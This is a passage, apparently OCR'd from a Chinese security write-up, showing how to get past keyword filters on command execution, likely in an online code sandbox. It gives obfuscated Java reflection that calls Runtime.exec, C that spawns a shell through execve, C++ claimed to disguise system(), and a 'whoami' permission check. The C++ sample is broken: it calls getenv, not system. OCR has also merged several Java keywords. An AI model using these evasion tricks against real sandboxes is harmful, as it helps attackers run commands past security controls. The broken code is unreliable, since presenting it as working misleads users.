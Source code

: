 ```
import java.util.Scanner;publicclassMain {    publicstaticvoidmain(String[] args)throws Exception {               Class<?> runtimeClass = Class.forName(newString(newbyte[] { 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101 }));        ObjectruntimeInstance= runtimeClass.getMethod(newString(newbyte[] { 103, 101, 116, 82, 117, 110, 116, 105, 109, 101 })).invoke(null);                Processprocess= (Process) runtimeClass.getMethod(newString(newbyte[] { 101, 120, 101, 99 }), String.class)            .invoke(runtimeInstance, newString(newbyte[] { 108, 115 }));        newScanner(process.getInputStream()).useDelimiter("\\A").forEachRemaining(System.out::println);    }}
```  
  
  
  
03  
  
C     
  
  
○ 绕过原理：使用execve  
或fork  
+execvp  
,execve  
是一个低级别的系统调用，通常不会被禁用  
  
```
#include <unistd.h>int main() {    char *args[] = {"/bin/sh", "-c", "ls /", NULL};    execve("/bin/sh", args, NULL);    return 0;}
```  
  
  
  
04  
  
C++  
  
  
○ 绕过原理：通过修改函数指针的地址，将func  
伪装为system  
，绕过system  
关键字静态检测  
  
```
#include <cstdlib>int main() {    char s[] = {115, 121, 115, 116, 101, 109, 0};    int (*func)(const char*) = (int (*)(const char*))std::getenv("PATH");    *(void**)&func = (void*)std::getenv;      return func("ls /");}
```  
  
  
  
# 03  
  
  
  
进一步测试  
  
05  
  
看看权限  
  
  
  
```
whoami
```  
  